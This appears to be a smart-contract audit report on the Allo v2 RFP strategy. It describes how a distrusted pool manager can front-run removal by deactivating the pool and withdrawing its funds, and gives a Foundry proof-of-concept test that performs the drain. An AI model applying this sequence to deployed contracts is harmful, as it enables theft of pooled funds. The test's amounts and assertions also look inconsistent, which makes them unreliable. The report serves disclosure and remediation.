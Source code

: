 Rich Jade Wolf

medium

# Front-running risk in the process of removing pool managers
## Summary
The protocol contains logic to add or remove pool managers. In the event that a pool manager loses the trust of the pool administrator, the administrator may wish to remove that manager. However, there is a vulnerability where the untrusted pool manager can front-run the administrator's transaction and empty the pool.

## Vulnerability Detail
1. The admin calls the `removePoolManager` function to remove an untrusted pool manager.
2. The untrusted pool manager also front-runs the admin's transaction by calling the `setPoolActive(false)` function to deactivate the pool and the `withdraw` function to empty the funds.

## Impact
This vulnerability allows untrusted managers to empty the pool's funds if they choose to do so.

## Code Snippet
```solidity
    function test_untrustedPoolMangerAttack() public {
        address untrustedManager = pool_manager1();

        // fund pool
        vm.deal(pool_admin(), 1e19);
        vm.prank(pool_admin());
        allo().fundPool{value: 1e19}(poolId, 1e19);

        vm.prank(pool_admin());
        allo().addPoolManager(poolId, untrustedManager);
        assertTrue(allo().isPoolManager(poolId, untrustedManager));
        
        // --- Start attack transaction
        vm.prank(untrustedManager); 
        strategy.setPoolActive(false);

        vm.prank(untrustedManager); 
        strategy.withdraw(9.9e17);
        // --- End attack transaction

        assertEq(address(allo()).balance, 0);
        assertEq(untrustedManager.balance, 9.9e17);
    } 
```

## Tool used
`forge test`
The snippet can be copied to `test/foundry/strategies/RFPSimpleStrategy.t.sol` and executed

## Recommendation
Consider [limiting the rights](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L295C14-L295C22) of managers to withdraw funds from the pool.
